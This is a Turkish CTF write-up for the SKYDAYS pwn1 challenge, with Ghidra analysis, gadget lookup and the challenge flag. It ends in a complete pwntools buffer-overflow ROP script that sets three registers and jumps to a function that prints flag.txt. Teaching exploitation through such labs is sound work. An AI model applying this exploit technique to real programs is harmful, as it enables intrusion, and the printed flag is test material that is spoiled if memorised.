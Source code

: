 # pwn1 - PWN

flag: `SKYSEC{W0W_Y0U'R3_4_H4CK3R_H0W_CH4R15M4T1C}`

# Writeup

# Giriş

 Bu yazı YTÜ SKYLAB kulübünün düzenlediği SKYDAYS etkinliğindeki CTF yarışmasındaki sorunun çözümünü anlatmaktadır. Sorunun tek çözümü bu değildir, başka çözümler olabilmektedir.

# Soru

 Bize “chal” isimli bir dosya verilmiş, bu dosyayı açtığımızda karşımıza şöyle bir ekran çıkmakta:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled.png)

 Program bizden bir girdi alıyor ve aldığı girdiği ekrana yazdırıyor. Bu durumda bizden sorunun içerdiği bayrağı bulmamız isteniyor.

# Çözüm

 Bize verilen dosyanın özelliklerine bakalım:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%201.png)

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%202.png)

 Dosyanın 64-bit mimaride, ‘little endian’ biçimde, dinamik olarak bağlanmış ve ‘stripped’ olduğunu; koruma olarak ise ‘NX’ ve ‘Partial RELRO’ içerdiğini görüyoruz.

 Dosyamızda bayrağın nerede olduğunu öğrenmek için dosyayı ‘ghidra’ ile inceleyelim:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%203.png)

 Dosyamız ‘stripped’ olduğundan fonksiyonların isimlerine ulaşamıyoruz. Bundan dolayı programın ne yaptığını anlamak için “entry” fonksiyonundan başlayarak inceleyelim:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%204.png)

 “entry” fonksiyonu bizi ‘FUN_0040128e’ fonksiyonuna yani “main” fonksiyonuna gönderiyor. “main” fonksiyonuna bakalım:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%205.png)

 “main” fonksiyonu ise benzer bir şekilde ‘FUN_00401231’ fonksiyonunu çağırıyor. ‘FUN_00401231’ fonksiyonuna bakalım:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%206.png)

 Programı çalıştırdığımızda karşımıza çıkan ekranın kodunu görüyoruz. Bu kod başka bir fonksiyonu çağırmıyor fakat bayrağı bize verecek fonksiyonu bulmamız gerek. Bunun için diğer fonksiyonlara bakalım:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%207.png)

 Karşımıza böyle ilginç bir fonksiyon çıkıyor. Bu fonksiyon üç adet parametre alıyor ve bu parametreler sırasıyla ‘0xdeadbeef’, ‘0xc0debabe’ ve ‘0xcacadada’ değerlerine eşit olursa ‘flag.txt’ dosyasının içeriğini ekrana yazdırıyor. Eğer parametreler bu değerlere eşit değilse ekrana “Nope, that’s not how you’re supposed to solve this challenge :D” yazdırıyor.

 ‘flag.txt’ dosyası tam da bizim erişmek istediğimiz dosya. Bunun için bir şekilde bu fonksiyona erişip parametrelere doğru değerleri yazmamız gerekiyor. Bunu yapmak için de ‘FUN_00401231’ fonksiyonundaki ‘buffer’ı kullanabiliriz yani bir ‘buffer overflow’ atağı yapabiliriz.

 Öncelikle programımızı ‘debugger’ yardımıyla çalıştırıp ‘rip register’ının ‘offset’ini bulmamız gerek. Bunu şu şekilde yapabiliriz:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%208.png)

 Burada ‘rsp register’ına dolan en soldaki değerlerden sonraki değerler ‘rip register’ına ulaşacak değerlerdir. Bundan dolayı ‘offset’imizi öğrenmek için ‘daaaaaaa’ değerinin ‘pattern’imizde kaçıncı sırada geldiğini bulmamız gerekir:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%209.png)

 Böylelikle ‘offset’imizin 24 olduğunu bulmuş olduk, bu ileride işimize yarayacak.

 Bayrağı yazdıracak fonksiyona dönmek için bu fonksiyonun adresine ihtiyacımız var. Sadece dönmemiz de yetmeyecek, parametreleri de uygun değerlerle eşleştirmemiz gerekiyor. Bunun için önce parametreleri oluşturmalı daha sonra fonksiyonu çağırmalıyız. Parametrelerin hangi ‘register’lar ile kontrol edildiğini öğrenmek için ‘ghidra’da açtığımız fonksiyonun ‘assembly’ kısmına bakalım:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%2010.png)

 Fonksiyonun adresini ‘0x401176’ olarak bulmuş olduk. Parametreleri program sırasıyla ‘rdi’, ‘rsi’, ‘rdx’ ‘register’larındaki değerlerle karşılaştırıyor yani bu ‘register’lara uygun değerleri yazmamız gerekecek. Bunu yapmak için ise ‘pop’ ‘gadget’ına ihtiyacımız var. ‘Ropper’ aletini kullanarak bu ‘gadget’lara ulaşabiliriz:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%2011.png)

 Bize gereken ‘gadget’ları bulmuş olduk. Bunları not edelim. İhtiyacımız olan bilgileri elde ettiğimize göre artık ‘script’imizi yazabiliriz:

```python
from pwn import *

#terminalde script'i GDB,REMOTE,LOCAL modlarında çalıştırmak için:
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

#binary dosyasının mimarisini ayarlamak için:
exe = './chal' #dosya adı
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug' #olan biteni anlamak için

#####################################
# exploit'i buradan sonra yazacağız #
#####################################

#BOF için gdb'den öğrendiğimiz offsetimizi buraya yazıyoruz:
offset = 24

#ropper'dan öğrendiğimiz gadget adreslerini buraya yazıyoruz:
pop_rdi = 0x401289
pop_rdx = 0x401287
pop_rsi = 0x401285

#programı başlatıyoruz:
io = start()

#payload'ı oluşturuyoruz:
payload = flat({
    offset: [
        pop_rdi,  # Pop the next value to RDI
        0xdeadbeefdeadbeef,
        pop_rsi,  # Pop the next value to RSI (and junk into R15)
        0xc0debabec0debabe,
        pop_rdx,
        0xcacadadacacadada,
        # With params in correct registers, call hacked function
        0x401176
    ]
})

#payload'ımızı yolluyoruz:
io.sendlineafter(b'name:', payload)

#flag'i okuyabilmek için interaktif moda geçiyoruz:
io.interactive()
```

 ‘script’imizi çalıştırdığımızda bayrağımızı elde ediyoruz:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%2012.png)